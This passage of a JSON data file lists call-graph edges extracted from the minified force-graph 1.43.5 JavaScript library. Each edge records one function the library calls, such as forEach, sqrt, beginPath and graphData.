"target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "reverse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "makeline"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "makeline"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "outlineshapes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "outline"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "makeshape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "intersects"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "lineIntersects"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "curveintersects"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "selfintersects"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "lineIntersects"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "roots"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "between"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "between"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "selfintersects"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "curveintersects"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "curveintersects"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "overlaps"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pairiteration"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "arcs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "_iterate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "_error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "dist"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "dist"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "dist"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "_iterate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "getccenter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "_error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "angle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "getOwnPropertySymbols"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "range"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "range"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "domain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "unknown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "onNeedsRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "alphaDecay"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "alphaTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "velocityDecay"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "force"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "force"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "alpha"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "resetCountdown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "alpha"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "onEngineStop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "tick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "onEngineTick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "linkCanvasObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "values"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "entries"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "entries"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "entries"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "entries"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "setLineDash"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "linkCanvasObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "nodeCanvasObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "force"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "force"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "force"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "force"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "onUpdate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "alpha"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "nodes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "force"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "links"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "some"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "every"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "values"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "force"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "strength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "dagNodeFilter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "tick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "resetCountdown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "onFinishUpdate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "_destructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "scale"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "translateBy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "setTransform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "clearRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "lookup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "graphData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "graphData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "nodeCanvasObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", 